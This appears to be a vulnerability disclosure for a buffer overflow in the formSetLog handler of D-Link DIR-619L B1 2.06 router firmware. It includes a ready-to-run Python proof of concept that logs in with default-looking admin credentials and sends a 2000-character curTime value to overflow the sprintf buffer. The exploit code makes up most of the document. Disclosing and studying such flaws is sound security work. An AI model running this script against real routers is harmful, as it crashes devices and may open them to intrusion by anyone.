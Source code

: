 ## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://support.dlink.com/resource/products/DIR-619L/REVB/DIR-619L_REVB_FIRMWARE_PATCH_2.06.B01_WW.ZIP

## Affected version

D-Link DIR-619L B1 2.06

## Vulnerability details

In the D-Link DIR-619L B1 2.06 firmware has a buffer overflow vulnerability in the `formSetLog` function. The `v6` variable receives the `curTime` parameter from a POST request. However, since the user can control the input of `curTime`, the `sprintf` can cause a buffer overflow vulnerability.

![image-20240927135929377](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240927135929377.png)

## POC

```python
import argparse, requests
import sys
import json

if sys.version_info[0] != 3:
    print("Please run the exploit in python3")
    sys.exit(1)

# You can also login with scripts below.
def login():
    login_url = "goform/formLogin"
    url = base_url + "/" + login_url
    print("1. Login: send request to", url)
    login_data = "curTime=1666884522835&FILECODE=a6.jpeg%0D%0A&VERIFICATION_CODE=LSYFZ&login_n=admin&login_pass=YWRtaW4A"
    response = requests.post(url=url, data=login_data, allow_redirects=False)
    print(response.text)


def poc():
    target_url = "goform/formSetLog"
    print("2. get target_url:", target_url)
    url = base_url + "/" + target_url
    print("3. send request to", url)
    
    # Using a dictionary to hold multiple parameters
    data = {
        "curTime": "A" * 2000,  # Adjust the number according to your needs
    }
    
    json_data = json.dumps(data)
    print("request body:", json_data)
    response = requests.post(url=url, json=data, allow_redirects=False)
    print(response.text)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Run the exploit')
    parser.add_argument('ip', type=str, default=None, help='The Router IP')
    args = parser.parse_args()

    global base_url
    base_url = "http://{}".format(args.ip)

    # login()
    poc()

```

![image-20240927142954053](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240927142954053.png)
